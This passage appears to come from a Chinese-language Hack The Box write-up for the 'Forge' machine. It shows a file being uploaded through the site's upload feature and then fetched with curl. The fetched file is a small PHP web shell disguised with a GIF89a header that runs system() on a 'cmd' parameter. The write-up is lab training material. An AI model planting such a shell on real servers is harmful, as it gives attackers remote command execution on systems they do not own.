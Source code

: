我点击了**上传本地文件**，选择了上面我创建的文件:

![](img/89ad91ec0e63eb3ce349a1bc190699fd.png)

从本地文件上传作品

这似乎奏效了:

![](img/8d61bfbb807b3ffc0265b3b170498e4f.png)

上传文件会返回 URL

检查我是否看到文件在创建时已上传:

```
┌──(root💀kali)-[~/htb/forge]
└─# curl http://forge.htb/uploads/IKExHjc8JZpazyGNcp02
GIF89a;
<?php
$cmd=$_GET['cmd'];
system($cmd);
?>
```
